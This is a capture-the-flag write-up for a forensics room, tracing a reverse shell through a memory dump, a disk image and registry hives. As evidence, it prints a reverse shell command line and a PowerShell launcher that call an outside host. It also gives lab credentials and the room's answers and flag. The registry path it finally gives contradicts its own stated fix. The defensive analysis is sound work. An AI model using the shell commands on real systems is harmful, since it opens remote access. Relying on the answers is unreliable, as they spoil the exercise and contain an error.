# Dead End Writeup

[](https://tryhackme.com/room/deadend)
[](https://tryhackme.com/room/deadend)

> Room Link → [Dead End](https://tryhackme.com/room/deadend)

---

# Dead End?

## Task 1: Memory

An in-depth analysis of specific endpoints is reserved for those you're certain have been compromised. This is usually done to understand how specific adversary tools or malware work at the endpoint level; the lessons learned here are applied to the rest of the incident response.

You're presented with two main artifacts: a memory dump and a disk image. Can you follow the artifact trail and find the flag?

1. `What binary gives the most apparent sign of suspicious activity in the given memory image?` (Use the full path of the artifact.)
2. `The answer above shares the same parent process with another binary that references a .txt file - what is the full path of this .txt file?`

---

### Question 1

> [!HINT]
> It's a well-known binary.

The task states we are provided with two main artifacts:

1. Memory dump
2. Disk Image

We can find a directory named `RobertMemdump` on the desktop which contains `memdump.mem`. In case you need to locate it manually, you can use the following command:

```bash
find / -type f -name *.mem 2>/dev/null
```

Now, let's analyze the memory dump using **Volatility 3**:

```bash
ubuntu@tryhackme:~/Desktop/volatility3$ python3 vol.py -f ../RobertMemdump/memdump.mem windows.info
Volatility 3 Framework 2.7.0
Progress:  100.00		PDB scanning finished
Variable	Value

Kernel Base	0xf802388a7000
DTB	0x1aa000
Symbols	file:///home/ubuntu/Desktop/volatility3/volatility3/symbols/windows/ntkrnlmp.pdb/94E2AE6323B686F1F4B25BA580582E04-1.json.xz
Is64Bit	True
IsPAE	False
layer_name	0 WindowsIntel32e
memory_layer	1 FileLayer
KdVersionBlock	0xf80238ca4f08
Major/Minor	15.17763
MachineType	34404
KeNumberProcessors	2
SystemTime	2024-05-14 22:07:36
NtSystemRoot	C:\Windows
NtProductType	NtProductServer
NtMajorVersion	10
NtMinorVersion	0
PE MajorOperatingSystemVersion	10
PE MinorOperatingSystemVersion	0
PE Machine	34404
PE TimeDateStamp	Sat May  4 18:48:48 2030
```

To find suspicious processes, we can use the `windows.cmdline` plugin:

```bash
4608	msedge.exe	Required memory at 0xe4ce760020 is not valid (process exited?)
4796	svchost.exe	C:\Windows\system32\svchost.exe -k LocalServiceNetworkRestricted -p -s WinHttpAutoProxySvc
1036	powershell.exe	Required memory at 0x4650be5020 is not valid (process exited?)
2736	conhost.exe	\??\C:\Windows\system32\conhost.exe 0x4
5228	svchost.exe	"C:\Tools\svchost.exe" -e cmd.exe 10.14.74.53 6996
3580	notepad.exe	"C:\Windows\system32\NOTEPAD.EXE" C:\Users\Bobby\Documents\tmp\part2.txt
3120	cmd.exe	cmd.exe
5676	FTK Imager.exe	"C:\Program Files\AccessData\FTK Imager\FTK Imager.exe"
```

Process ID **5228** stands out with the following command:

```shell
svchost.exe	"C:\Tools\svchost.exe" -e cmd.exe 10.14.74.53 6996
```

This process is connecting `cmd.exe` to a remote host at `10.14.74.53:6996`, which is a clear attempt to establish a reverse shell. This is the artifact we are looking for.

**Answer:** `C:\Tools\svchost.exe`


---

### Question 2

> The answer above shares the same parent process with another binary that references a .txt file - what is the full path of this .txt file?

Looking at process ID **3580**:

```shell
3580	notepad.exe	"C:\Windows\system32\NOTEPAD.EXE" C:\Users\Bobby\Documents\tmp\part2.txt
```

This reveals the path to the text file.

**Answer:** `C:\Users\Bobby\Documents\tmp\part2.txt`


---

## Task 2: Disk

The disk image can be found in `D:\Disk`. You can also connect to the machine via RDP using these credentials:

| **Username** | **Administrator** |
| ------------ | ----------------- |
| **Password** | **Bobby_disk**    |

From the previous question, we know `part2.txt` is referenced by a binary. Let's investigate its contents.

To do this, we need to add the disk image to **AccessData FTK Imager**:

1. Open **FTK Imager**.
2. Click **File** -> **Add Evidence Item**.
3. Select **Image File**.
4. Provide the path and click **Finish**.
5. Load the filesystem.



Navigating to `/[root]/Users/Bob/Documents/tmp`, we find `part2.txt` with the following content:



**Question 5 Answer:** `faDB3XzJfcDF2T1R9` (Content of "Part2")


Investigating `connector.ps1`, we find the script used to connect to the remote host:

```powershell
Start-Process -NoNewWindow "C:\Tools\svchost.exe" "-e cmd.exe 10.14.74.53 6996"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

We should also check the PowerShell logs in `.evtx` format.

> [!TIP]
> Windows `.evtx` log files are saved by default in **`C:\Windows\System32\winevt\Logs`**.

While exploring the `C:` drive, we notice the `Tools` folder from which `svchost.exe` was executed.



This folder is not standard in Windows, making it highly suspicious. We should inspect it thoroughly in both the live system and **FTK Imager**.



Inspecting the directory `C:\Tools\windows-networking-tools-master\windows-networking-tools-master\LatestBuilds\x64`, we find deleted items named `Autoconnector`.



Which seems pretty suspicious if you look at it I mean
inside the `Tools` folder named `Autoconnector` and deleted after use.
So I tried it as the answer and yeah it was correct


To confirm if `Autoconnector.exe` is malicious, we can:

1. **Export and check hashes:**
   ```plain
   MD5,SHA1,FileNames
   "6ba40d4924b02f2644a5a75808637d0d","4091aeccedd56318112c9cb8dcd09814c38dae89","Autoconnector.exe"
   "4047530ecbc0170039e76fe1657bdb01","32db7d5e662ebccdd1d71de285f907e3a1c68ac5","Autoconnector.exe:SmartScreen"
   "66bb83244234ab5a5f2200644ebbe865","6e5073416f52c32b83e344922de95576d86117e7","Autoconnector.exe:Zone.Identifier"
   ```
2. **Search the hash on [VirusTotal](https://www.virustotal.com/gui/file/2aada68677409c73bf1eeb11540be3238a6aaf3e1d5dad13a0d7c3811dcdb809).**
3. **Analyze its behavior:**
   

Under the `Registry Keys Set` in the Behavior section, we find interesting entries:


One entry mentions `fl.ag` with the text: `VEhNezZsNERfeTB1X2tOT3d`. Entering this into CyberChef gives us the first part of the flag.

The second part is likely the content of `part2.txt` we found earlier. Merging them:

```base64
VEhNezZsNERfeTB1X2tOT3dfaDB3XzJfcDF2T1R9
```

Decoding this Base64 string (length 40) reveals the full flag.



**Final Flag:** `THM{6l4D_y0u_kNOw_h0w_2_p1vOT}`

---

## Registry Analysis

The final task is to find the **full registry path where the existence of the binary is confirmed**.

This required researching Windows forensic locations. We need to examine the **SYSTEM** hive.

> [!TIP]
> The location of Windows registry hives is **`C:\Windows\System32\config`**.

We exported the **SYSTEM** file and opened it in **Registry Explorer**.




Searching for `Autoconnector.exe` revealed several hits. A hint provided in the room ("Hits you right in the face... bam!") points to the **BAM (Background Activity Moderator)** key.



Which concludes that the registry is the first one which has `bam` in it.

> `ControlSet001\Services\bam\State\UserSettings\S-1-5-21-1966530601-3185510712-10604624-1008`

Okay but this doesn't look like a registry path does it?

Let's fix it by adding **HKEY_LOCAL_MACHINE\SYSTEM** in-front of it.

> `HKEY_LOCAL_MACHINE\SOFTWARE\ControlSet001\Services\bam\State\UserSettings\S-1-5-21-1966530601-3185510712-10604624-1008`

---

## Summary of the Forensic Process

In this investigation, we followed a standard DFIR (Digital Forensics and Incident Response) workflow:

1.  **Memory Analysis:** Used Volatility 3 to identify a suspicious process (`svchost.exe` in `C:\Tools`) acting as a reverse shell.
2.  **Artifact Correlation:** Linked the suspicious process to a text file (`part2.txt`) and a PowerShell script (`connector.ps1`).
3.  **Disk Forensics:** Leveraged FTK Imager to explore the filesystem, recover deleted items (`Autoconnector.exe`), and extract evidence from the `C:\Tools` directory.
4.  **Malware Analysis:** Used OSINT (VirusTotal) and behavioral logs to identify registry keys used by the malicious binary to store encoded flag fragments.
5.  **Registry Forensics:** Utilized Registry Explorer to locate the Background Activity Moderator (BAM) keys, confirming the execution of the unauthorized binary.
6.  **Data Reassembly:** Combined Base64 fragments from registry keys and disk artifacts to reconstruct the final flag.

---

**Room Finished!**

Happy Hacking 🔍⚠️.
